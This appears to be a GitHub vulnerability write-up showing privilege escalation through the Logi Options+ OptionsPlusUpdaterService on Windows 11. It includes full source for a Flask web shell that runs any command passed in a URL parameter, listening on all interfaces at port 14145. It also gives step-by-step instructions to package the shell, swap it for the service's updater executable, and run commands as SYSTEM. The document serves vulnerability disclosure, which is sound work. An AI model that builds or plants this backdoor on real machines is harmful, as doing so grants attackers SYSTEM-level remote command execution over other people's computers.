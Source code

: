 # windows Logi OptionsPlus OptionsPlusUpdaterService is Vulnerable Services

test on windows 11 22000.1098   Logi Options+ 1.0.5155

#Vulnerability reproduction

#The first step：open services.msc find OptionsPlusUpdaterService

![image](https://github.com/happy0717/windows-Logi-OptionsPlus-OptionsPlusUpdaterService-is-Vulnerable-Services/blob/main/pic1.png)



#Step 2：Prepare a malicious program

![image](https://github.com/happy0717/windows-Logi-OptionsPlus-OptionsPlusUpdaterService-is-Vulnerable-Services/blob/main/pic2.png)

    from flask import Flask, request
    import os

    app = Flask(__name__)

    @app.route('/')
    def hello_world():
        r = request.args.getlist('cmd')  #Reception? cmd= parameter
        a=os.popen(r[0])  #Execute system commands
        l = a.read()
        return l  #return

    if __name__ == '__main__':
        app.run(host='0.0.0.0', port=14145, debug=True)  #Listen HTTP port 14145



I was useing python3 flask write a malicious exe .It can listenHTTP port 14145 and execute system commands.

Using commands pyinstaller.exe --onefile --windowed -F -w python_test.py make a malicious exe.



#Step 3：Put malware into Logi OptionsPlus installation path,and rename malware to logioptionsplus_updater.exe.

for me Logi OptionsPlus installation path is :C:\Program Files\LogiOptionsPlus

1.Delete the old logioptionsplus_updater.exe or anything to make logioptionsplus_updater.exe disappear

2.Put malware into Logi OptionsPlus installation path,and rename malware to logioptionsplus_updater.exe

![image](https://github.com/happy0717/windows-Logi-OptionsPlus-OptionsPlusUpdaterService-is-Vulnerable-Services/blob/main/pic3.png)



#Step 4：Start the OptionsPlusUpdaterService

If OptionsPlusUpdaterService is already start you can restart it

![image](https://github.com/happy0717/windows-Logi-OptionsPlus-OptionsPlusUpdaterService-is-Vulnerable-Services/blob/main/pic4.png)



#Step 5：Wait OptionsPlusUpdaterService start and execute the system commands

When I see OptionsPlusUpdaterService start in Taskmgr.exe whit SYSTEM, Then I can Open browser input http://127.0.0.1:14145?cmd=whoami

Wait..........

for...

it.

NT SYSTEM

![image](https://github.com/happy0717/windows-Logi-OptionsPlus-OptionsPlusUpdaterService-is-Vulnerable-Services/blob/main/pic5.jpg)
